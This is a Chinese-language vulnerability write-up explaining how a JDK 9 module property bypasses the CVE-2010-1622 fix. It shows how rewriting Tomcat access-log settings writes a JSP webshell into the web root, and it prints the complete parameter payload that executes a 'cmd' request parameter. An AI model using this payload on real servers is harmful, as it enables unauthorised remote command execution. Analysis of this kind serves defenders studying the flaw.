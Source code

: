 ```xml
<Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs" prefix="access." suffix=".log" 
        pattern="%h %l %u %t "%r" %s %b "%{Referer}i" "%{User-Agent}i" %{X-Forwarded-For}i "%Dms"" resolveHosts="false"/>
```
### RCE思路
通过修改Tomcat的日志文件生成信息使得可以在我们指定的路径下生成任意后缀的日志文件,并且可以指定其内容格式,所以可以通过该方法来在WEB目录下写入webshell.
### JDK 9
正常情况下可以通过class.getClassLoader()来获取类加载器,而这也是CVE-2010-1622的利用方式,在CVE-2010-1622的补丁中把classLoader加入了黑名单.  
![](2022-05-10-17-15-27.png)  
这次则是利用jdk9之后加入的新特性绕过了该补丁,在jdk9之后加入了一个moudle属性,而moudle属性也可以得到类加载器,导致绕过了黑名单.
最后访问tomcat 日志文件的方法则变成了如下:  
`class.moudle.classLoader.resources.context.parent.pipeline.first.directory `  
通过修改日志属性如下
```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25{prefix}ijava.io.InputStream+in+%3d+Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream()%3bint+a+%3d+-1%3bbyte[]+b+%3d+new+byte[4096]%3bout.print("</pre>")%3bwhile((a%3din.read(b))!%3d-1){+out.println(new+String(b))%3b+}out.print("</pre>")%3b%25{suffix}i  
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp  
class.module.classLoader.resources.context.parent.pipeline.first.directory=./webapps/ROOT/  
class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell  
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
调用setVlaue来调用属性的set方法覆盖原来的值.  
![](2022-05-10-17-28-57.png)   
可以发现ClassLoader中tomcat的相关属性已经被覆盖了  